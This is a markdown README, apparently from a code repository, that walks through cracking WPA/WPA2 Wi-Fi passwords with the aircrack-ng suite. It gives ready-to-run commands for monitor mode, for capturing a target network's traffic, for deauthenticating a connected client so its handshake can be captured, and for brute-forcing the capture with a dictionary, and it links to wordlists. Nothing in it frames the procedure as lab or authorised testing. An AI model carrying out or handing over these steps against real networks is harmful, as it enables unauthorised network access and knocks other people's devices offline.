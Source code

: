 # WPA/WPA2 Wifi Password Hack w/ Aircrack-ng

## Sources : 
- https://www.youtube.com/watch?v=zAWcu3NQLME&list=PL7WXNOcf6zc0V5rydTqW6Qymm6lnrt33T&index=2

## Online part

- display network interfaces availables on the machine (common names : wlan0 / wlo1 ...) :
```
iwconfig
```
- display more details about the interface :
```
ifconfig [interface name]
```
- display availables wireless interfaces :
```
airmon-ng
```

`We now want to change the "Managed Mode" into "Monitor Mode" for the purpose of packets capture`

- change our wireless card mode :
```
airmon-ng start [interface name]
```
- check if the mode change worked, the interface name should now end with "mon" :
```
iwconfig
```
- grabbing packets on this interface (channel hopping) :
```
airodump-ng [new interface name]
```

`We have now multiple lines showing availables Wi-Fi in the area, with many informations, we can stop the command when the target appears`

`Keep the terminal open with the informations, we need the BSSID and the channel "CH"`

- Use Airodump to monitor only the target Wi-Fi network :
```
airodump-ng -c [channel number] -d [target BSSID] -w capture [interface name]
```

`We now need to choose one of the clients of the targeted Wi-Fi (know as stations in the terminal) and knock its connection down so that when he try to reconnect, we intercept the WPA handshake to perfom an offline dictionnary attack`

`(do not stop the previous command since it's displaying a msg when the following commands gets what we want -> capture WPA handshake)`


- knock one of the clients connection down :
```
aireplay-ng --deauth 0 -a [router BSSID] -c [client BSSID] [monitor interface]
```

`Wait until the WPA handshake or the PMKID appears on the airodump command then stop the two`

`You have now the capture files`

- make sure you switch your interface back in managed mode : :
```
airmon-ng stop [interface name]
```

## Offline part

- Brute force attack on the capture file :
```
aircrack-ng [captureFile.cap] -w [wordlist]
```

## Some wordlists availables :
- https://hackntricks.fr/4-wordlists-pour-brute-force-un-mot-de-passe/